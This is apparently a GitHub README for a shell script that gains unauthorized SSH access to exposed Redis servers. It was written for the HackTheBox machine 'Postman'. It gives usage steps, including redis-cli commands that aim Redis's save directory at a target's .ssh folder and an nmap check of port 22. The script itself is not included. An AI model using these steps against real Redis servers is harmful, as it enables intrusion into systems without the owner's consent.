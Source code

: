 # RedisUnauthorizedAccess


This script was created to to gain unauthorized access on public Redis servers. 


## Getting Started

First you will need to create a ssh key inside your machine and properly filling in all the required fields.




(1) Go to the ssh directory with 
```
cd .ssh 
```
(2) Create a new key 
```
ssh-keygen
```
(3) Run the script
```
sh script.sh
```

## Recommendations

This script was also created to automate all the steps required to obtain SSH access within the public Redis server in the HackTheBox.eu machine "Postman". Therefore, in a different situation, you will be required to change certain conditions according to the case within the script.


## Changes

(1) Change the remote host in every commands 
```
"redis-cli -h yourtargetremote" 
```
(2) Change correct directory pattern of your redis target
```
"redis-cli -h yourtargetremote config set dir /x/z/x/.ssh"
```
(3) And of course check if an authentication session is available through SSH
```
nmap -p 22 yourtargetremote
```
## Authors

* **Lorenzo Albano Fontanot** - *Initial work* - [Ezploisite](https://github.com/Ezploisite/RedisUnauthorizedAccess)


## Terms of use

* You are free to edit this script as you wish.
* Don't forget to let me know if the script was useful to you.
* Only for educational purpose.

## Acknowledgments

* Thanks if you'll choose to use this script.

## Special thanks

* KNX 
* Pozivo
* H1tman










